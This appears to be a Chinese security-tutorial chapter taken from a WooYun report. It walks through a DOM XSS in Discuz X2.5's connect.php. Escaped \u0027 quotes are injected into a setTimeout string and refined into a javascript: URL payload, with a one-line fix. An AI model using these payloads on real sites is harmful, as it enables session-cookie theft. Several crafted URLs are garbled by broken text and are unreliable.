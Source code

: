 # 13\. Dom Xss 实例 [Discuz X2.5]

> 来源：[13\. Dom Xss 实例 [Discuz X2.5]](http://www.wooyun.org/bugs/wooyun-2010-016437)

## 简要描述

我们教程的 DOM XSS 就到这里了。最后再给大家送上一个实例。希望大家能够体会到：XSS 的上下文非常重要，如何结合上下文， 利用未过滤字符，合理的构造，才是成功的关键。

## 详细说明

1\. 我们直接看实例点。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=aaaaaaaaaaa&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

2\. 可以看到我们的 aaaaaaaaaa 在源代码里有 2 处输出。

![image](img/Image_064.jpg)

3\. 看第 2 处，我们需要用双引号闭合，但是显然 dz 不会给我们这么明显的机会，被拦截了。

![image](img/Image_065.jpg)

4\. 我们把目光放在第一处，这一处很特殊，位于 setTimeout 函数的第一个参数里，setTimeout 的第一个函数会将字符串作为脚本来 执行。

我们把这一部分代码提取出来。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./aaaaaaaaaaa';</script> 
```

我们首先能想到的是闭合掉 单引号， 但是这里单引号已经被过滤了。

![image](img/Image_066.jpg)

5\. 那么是不是就没有办法了呢？我们可以看到 setTimeout 的第一个参数是字符串；我们前面的教程里说过一次，JS 字符串中，字符还可以表示为 unicode 的形式。即：单引号还可以表示为`\u0027` 或`\x27`。带着这个想法，我们可以试试\有没有被过滤。 幸运的是，这里还真没过滤 `\`

![image](img/Image_067.jpg)

6\. 接着我们就是构造代码了。 首先写好代码。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a';alert(document.cookie);a='';</script> 
```

将里面的引号变为`\u0027`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027;alert(document.cookie);a=\u0027';</script> 
```

代入到 URL 里。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027;alert(document.cookie);a=\u%3Ba%3D\u0)0 027&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_signature=a6DLYVhIXQJeXiXkf7nVdbgn tm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到弹出了 cookies。

![image](img/Image_068.jpg)

7\. 其实这里存在一个问题。 这段 JS 代码里，第一句是 `location.href="某个地址";` 上面我们所演示的，是一个 alert，暂停了 `location.href` 的发生。

如果我们把 `alert(document.cookie);` 换成插入某个 JS 文件的脚本代码，就会出现问题。

即：JS 文件还没来得及加载，`location.href="某个地址";` 这句就会被执行，从而跳转到另外一个页面了，继而导致失效。

8\. 所以这里，我们有必要改进下执行 JS 的办法。如下，

我们可以直接让代码变成执行 `location.href="javascript:alert(document.cookie)";` `location.href='原来的字符串'.替换(所有字符,"新的字符");`

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a'.replace(/.+/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

同上，替换单引号,加号什么的。

```
<script type="text/javascript" reload="1">setTimeout("window.location.href='http://www.discuz.net/./a\u0027.replace(/.\u002b/,/javascript:alert(document.cookie)/.source);//';", 2000);</script> 
```

最后利用代码。

```
http://www.discuz.net/connect.php?receive=yes&mod=login&op=callback&referer=a\u0027.replace(/.\u002b/,/javascrip t:alert(document.cookie)/.source);//&oauth_token=17993859178940955951&openid=A9446B35E3A17FD1ECBB3D8D42FC126B&oauth_s ignature=a6DLYVhIXQJeXiXkf7nVdbgntm4%3D&oauth_vericode=3738504772&timestamp=1354305802 
```

可以看到，效果一样，这次就不会发生跳转从而导致加载 JS 失败咯。

![image](img/Image_069.jpg)

## 修复方案

过滤掉 `\`